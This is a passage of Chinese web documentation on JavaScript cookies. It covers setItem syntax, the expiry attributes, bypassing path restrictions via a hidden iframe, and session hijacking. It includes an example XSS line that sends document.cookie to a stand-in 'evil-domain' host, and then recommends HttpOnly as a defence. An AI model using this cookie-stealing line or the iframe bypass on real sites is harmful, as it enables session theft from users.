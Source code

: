 docCookies.setItem(name, value[, end[, path[, domain[, secure]]]])

;max-age=max-age-in-seconds (例如一年为 60*60*24*365)
;expires=date-in-GMTString-format 如果没有定义，cookie 会在对话结束时过期


路径限制并不能阻止从其他路径访问 cookie. 使用简单的 DOM 即可轻易地绕过限制 (比如创建一个指向限制路径的，隐藏的iframe, 然后访问其 contentDocument.cookie 属性). 保护 cookie 不被非法访问的唯一方法是将它放在另一个域名/子域名之下，利用同源策略保护其不被读取。

Web 应用程序通常使用 cookies 来标识用户身份及他们的登录会话。因此通过窃听这些 cookie，就可以劫持已登录用户的会话。窃听的 cookie 的常见方法包括社会工程和 XSS 攻击 -

(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;

HttpOnly 属性可以阻止通过 javascript 访问 cookie，从而一定程度上遏制这类攻击。参见 Cookies and Security.